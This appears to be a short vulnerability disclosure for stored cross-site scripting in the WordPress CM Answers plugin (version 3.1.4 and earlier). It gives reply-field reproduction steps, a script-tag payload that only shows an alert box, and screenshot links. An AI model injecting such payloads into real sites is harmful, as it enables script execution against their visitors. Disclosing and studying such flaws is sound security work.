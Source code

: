 
Cross-Site Scripting (XSS) vulnerability in WP CM Answers Plugin <= 3.1.4 at WordPress.

Plugin page:https://www.cminds.com/cm-answer-store-page-content//

STEPS:

1.click the Answers

2.click reply

3.put POC in reply
[![XIA1un.png](https://s1.ax1x.com/2022/06/14/XIA1un.png)](https://imgtu.com/i/XIA1un)
POC:
```Plaintext
<a href=""><script>alert(/xss/)</script><">1</a>
```
[![XIA4KA.png](https://s1.ax1x.com/2022/06/14/XIA4KA.png)](https://imgtu.com/i/XIA4KA)
Then go to the home page of the website

XSS vulnerability triggered[![XIEQPO.jpg](https://s1.ax1x.com/2022/06/14/XIEQPO.jpg)](https://imgtu.com/i/XIEQPO)
[![XIEBRg.png](https://s1.ax1x.com/2022/06/14/XIEBRg.png)](https://imgtu.com/i/XIEBRg)
